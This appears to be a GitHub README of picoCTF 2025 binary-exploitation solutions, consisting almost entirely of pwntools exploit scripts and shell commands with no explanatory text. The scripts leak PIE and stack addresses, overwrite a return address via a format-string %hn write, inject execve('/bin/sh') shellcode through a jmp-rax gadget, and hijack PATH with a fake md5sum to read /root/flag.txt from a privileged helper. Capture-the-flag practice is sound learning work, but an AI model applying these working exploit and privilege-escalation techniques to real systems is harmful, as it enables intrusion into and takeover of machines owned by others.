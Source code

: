 # Write-Up-Pico-Pwn
# PICO CTF 2025 

## PWN
<details>
   <summary> PIE TIME </summary>

        #!/usr/bin/python3

        from pwn import *
        import argparse
        from time import *


        parser = argparse.ArgumentParser(description='Exploit script')
        parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
        args = parser.parse_args()

        exe = ELF('./vuln', checksec=False)
        #libc = ELF('./libc.so.6', checksec=False)
        #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
        #libc = exe.libc

        context.binary = exe
        context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

        info = lambda msg: log.info(msg)
        sla = lambda msg, data: p.sendlineafter(msg, data)
        sa = lambda msg, data: p.sendafter(msg, data)
        sl = lambda data: p.sendline(data)
        s = lambda data: p.send(data)
        sln = lambda msg, num: sla(msg, str(num).encode())
        sn = lambda msg, num: sa(msg, str(num).encode())

        def GDB():
            if args.remote is None:
                gdb.attach(p, gdbscript='''
                b* main+139

                c
                ''')
                input()

        if args.remote:
            p = remote('rescued-float.picoctf.net',64223)  
        else:
            p = process(exe.path)  

        #GDB()



        p.recvuntil(b' main: ')

        main = int(p.recvline().strip(),16)
        print(hex(main))
        exe.address = main - 0x133d
        print(hex(exe.address))

        sl(hex(exe.address + 0x00000000000012A7)) #win

        p.interactive()
</details>

<details>
    <summary> PIE TIME 2 </summary>
            
            #!/usr/bin/python3

            from pwn import *
            import argparse
            from time import *

            parser = argparse.ArgumentParser(description='Exploit script')
            parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
            args = parser.parse_args()

            exe = ELF('./vuln', checksec=False)
            #libc = ELF('./libc.so.6', checksec=False)
            #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
            #libc = exe.libc

            context.binary = exe
            context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

            info = lambda msg: log.info(msg)
            sla = lambda msg, data: p.sendlineafter(msg, data)
            sa = lambda msg, data: p.sendafter(msg, data)
            sl = lambda data: p.sendline(data)
            s = lambda data: p.send(data)
            sln = lambda msg, num: sla(msg, str(num).encode())
            sn = lambda msg, num: sa(msg, str(num).encode())

            def GDB():
                if args.remote is None:
                    gdb.attach(p, gdbscript='''
                    b* call_functions+80

                    c
                    ''')
                    input()

            if args.remote:
                p = remote('rescued-float.picoctf.net',55139)  
            else:
                p = process(exe.path)  

            #GDB()

            sl(b'%19$p')

            p.recvuntil(b'name:')

            leak = int(p.recvline().strip(),16)

            exe.address = leak - 0x1441

            win = exe.address + 0x000000000000136A

            sl(hex(win))

            p.interactive()
</details>

<details>
    <summary> Handoff </summary>
            
            #!/usr/bin/python3

            from pwn import *
            import argparse
            from time import *


            parser = argparse.ArgumentParser(description='Exploit script')
            parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
            args = parser.parse_args()

            exe = ELF('./handoff', checksec=False)
            #libc = ELF('./libc.so.6', checksec=False)
            #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
            #libc = exe.libc

            context.binary = exe
            context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

            info = lambda msg: log.info(msg)
            sla = lambda msg, data: p.sendlineafter(msg, data)
            sa = lambda msg, data: p.sendafter(msg, data)
            sl = lambda data: p.sendline(data)
            s = lambda data: p.send(data)
            sln = lambda msg, num: sla(msg, str(num).encode())
            sn = lambda msg, num: sa(msg, str(num).encode())

            def GDB():
                if args.remote is None:
                    gdb.attach(p, gdbscript='''
                    b* 0x00000000004013ED

                    c
                    ''')
                    input()

            if args.remote:
                p = remote('shape-facility.picoctf.net',60437)  
            else:
                p = process(exe.path)  

            #GDB()


            jmp_rax = 0x000000000040116c

            sl(b'3')

            shell = asm(
                '''
                xor rax,rax
                xor rdi,rdi
                mov rsi,rsi
                mov rsi,rsp         #excute read
                syscall
                jmp rsi
                ''',arch='amd64'
            )

            pl = flat(
                shell.ljust(20),
                jmp_rax,            

            )
            sl(pl)

            shell = asm(
                '''
                mov rbx, 29400045130965551
                push rbx

                mov rdi, rsp
                xor rsi, rsi
                xor rdx, rdx
                mov rax, 0x3b
                syscall
                ''',arch='amd64'
            )
            s(shell)

            p.interactive()
</details>

<details>
    <summary> Echo Valley </summary>

    #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *


    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./valley', checksec=False)
    #libc = ELF('./libc.so.6', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc

    context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())

    def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            b* echo_valley+218

            c
            ''')
            input()

    if args.remote:
        p = remote('shape-facility.picoctf.net',49775)  
    else:
        p = process(exe.path)  

    #GDB()

    sl(b'%21$p-%20$p')

    p.recvuntil(b'distance: ')
    leak = int(p.recvuntil(b'-',drop=True),16)
    stack = int(p.recvline().strip(),16)

    exe.address = leak - 0x1413

    print('exe = ' + hex(exe.address))
    print('stack = ' + hex(stack))


    win = exe.address + 0x0000000000001269
    print('win '+ hex(win))
    ret = stack - 0x8
    print('ret ' + hex(ret))

    pl = flat(
        f'%{win & 0xffff}c%8$hn'.encode().ljust(0x10),  #Change main to PrintFlag
        ret,
    )
    sl(pl)

    sl(b'exit')

    p.interactive()

</details>

<details>
    <summary> Hash only 1 </summary>
    
        echo -e '#!/bin/bash\ncat /root/flag.txt' > md5sum
        chmod +x md5sum
        mkdir /tmp/fakepath
        mv md5sum /tmp/fakepath/

        export PATH="/tmp/fakepath:$PATH"
        ./flaghasher

</details>

<details>
    <summary> Hash only 2 </summary>
    
        sh # Chạy shell sh
        
        echo -e '#!/bin/bash\ncat /root/flag.txt' > /tmp/md5sum
        chmod +x /tmp/md5sum
        export PATH="/tmp:$PATH"
        flaghasher 

</details>









